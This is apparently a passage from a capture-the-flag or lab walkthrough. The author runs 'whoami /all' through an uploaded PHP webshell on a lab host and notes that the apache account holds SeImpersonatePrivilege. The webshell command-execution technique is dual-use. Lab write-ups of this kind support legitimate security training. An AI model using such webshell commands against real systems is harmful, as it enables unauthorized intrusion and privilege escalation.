 ```


PS C:\Program Files\LibreOffice\program> 
```

We can use `curl` to execute commands via our webshell. Let's verify that we have access to the `apache` account and list some information about it using `whoami /all`.

```
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.120.63/cmd.php?cmd=whoami+/all

USER INFORMATION
----------------

User Name    SID                                         
============ ============================================
craft\apache S-1-5-21-537427935-490066102-1511301751-1000


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeTcbPrivilege                Act as part of the operating system       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

┌──(kali㉿kali)-[~]
└─$ 
```
